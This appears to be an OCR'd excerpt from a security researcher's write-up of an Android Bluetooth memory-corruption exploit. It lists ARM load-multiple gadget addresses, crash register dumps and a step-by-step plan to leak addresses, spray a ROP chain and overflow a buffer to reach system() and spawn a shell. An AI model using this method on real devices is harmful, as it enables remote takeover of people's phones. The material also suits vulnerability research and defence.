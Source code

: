 0x000dcecc : ldm r5, {r2, r3, r4, r6, r7, r8, lr, pc}

The target crash with following register containts:

- R2 = R5 + 0x0  = 000e0000
- R3 = R5 + 0x4  = 00000000
- R4 = R5 + 0x8  = 000a2002
- R5 = 95270300 = BT_HDR* p_buff with the second payload at + 0x???
- R6 = R5 + 0xC = 00010006
- R7 = R5 + 0x10 = 0002020a
- R8 = R5 + 0x14 = 00000002

There is no increment in this load multiple and we can see that the containt of BT_HDR* p_buff + 0x0 is:
000e0000 00000000 000a2002 00010006 0002020a 00000002

The same test with a load multiple with increment before gadget found at 0x0014b580:
0x0014b580 : ldmib r5, {r1, r2, r3, r4, r7, r8, sl, fp, sp, pc} ^

The target crash with following log:

After the crash the registers contains:
- R1 = R5 + 0x4  = 00000000
- R2 = R5 + 0x8  = 000a2002
- R3 = R5 + 0xC  = 00010006
- R4 = R5 + 0x10 = 0002020a
- R5 = 9530ee00 = BT_HDR* p_buff with the second payload at + 0x14
- R7 = R5 + 0x14  = 96300002
- R8 = R5 + 0x18  = dead0007
- SL = R5 + 0x1C  = dead0008
- FP = R5 + 0x20  = dead0009
- SP = R5 + 0x24  = dead000a

The containt of BT_HDR* p_buff + 0x4 for the increment is:
00000000 000a2002 00010006 0002020a 96300002 dead0007 dead0008 dead0009 dead000a

We can see that the second payload is at + 0x14 in BT_HDR* p_buff


########################################################################################

WRITE THE ROP CHAIN

########################################################################################

As Jan Ruge with the libicuuc library we only have access to dlsym in the bluetooth one to find the address of system in order to start the shell

The exploit process is as follow:

- Get a link transmit data buffer queue entry address at mem_offset 180 and compute base of a packet with - 176
- Get BleAdvertisingManagerImpl::SetDataAdvDataSender function address at mem_offset 28 to compute the bluetooth library base address
- Build a first payload of 32 characters containing the link transmit data buffer queue entry address
- Build a second payload of 184 characters containing then ROP chain and the shell command
- Spray the second payload at mem_offset 184 using leak method to place it in the link transmit data buffer queue
- Overflow the first payload to overwrite entries in the link transmit data buffer queue and trigger the branch to the beginning of the second payload
- Second payload start the shell command

See code for explainations

########################################################################################
